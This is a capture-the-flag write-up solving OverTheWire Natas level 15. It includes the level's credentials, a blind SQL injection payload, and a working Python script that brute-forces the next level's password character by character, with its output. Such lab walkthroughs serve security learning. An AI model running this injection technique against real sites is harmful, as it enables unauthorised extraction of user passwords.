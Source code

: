# Natas Level 14 --> Level 15

**Username:** natas15

**Password:** AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

**URL:**      http://natas15.natas.labs.overthewire.org

 
**Solved with my best friend [Wasfy Elbaz](github.com/wasfyelbaz/)**

## Solution
* Click view sourcecode there you can see the query they use to access, there isn't anything special so we can inject simple code to bypass.
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```
* Try enter 'natas16' as username the response will be:
```
This user exists.
```
* So we need to get this username's password to solve this level.
* We can guess the password char by char using LIKE query
```
natas16" AND password LIKE BINARY "{char}%
``` 
* Write python script brute-force requests to get the password consist of 32 chars (like all natas passwords)
```python
import requests
from bs4 import BeautifulSoup
import string

CHARS = list(string.ascii_lowercase + string.ascii_uppercase + "0123456789")

USER_AGENT = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"

headers = {
    'dnt': '1',
    'upgrade-insecure-requests': '1',
    'user-agent': USER_AGENT,
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'host': 'natas15.natas.labs.overthewire.org',
    'accept-Encoding': 'gzip, deflate',
    'origin': 'http://natas15.natas.labs.overthewire.org',
    'authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==',
    'connection': 'close',
    'referer': 'http://natas15.natas.labs.overthewire.org/',
    'sec-gpc': '1'
}

payload = ""
while len(payload) < 32:
  for char in CHARS:
    print(f"\rCurrent Char: {char} | Payload: {payload}", end="")
    url = f"http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+like+binary+%22{payload}{char}%&debug=1"
    response = requests.get(url, headers=headers)
    if "This user exists" in response.content.decode():
      payload += char
      break
```
```bash
┌─[darkknight@dark]─[~]
└──╼ $python3 blind_sql_user_gussing.py 
Current Char: h | Payload: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

```
* You got the password!!

> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
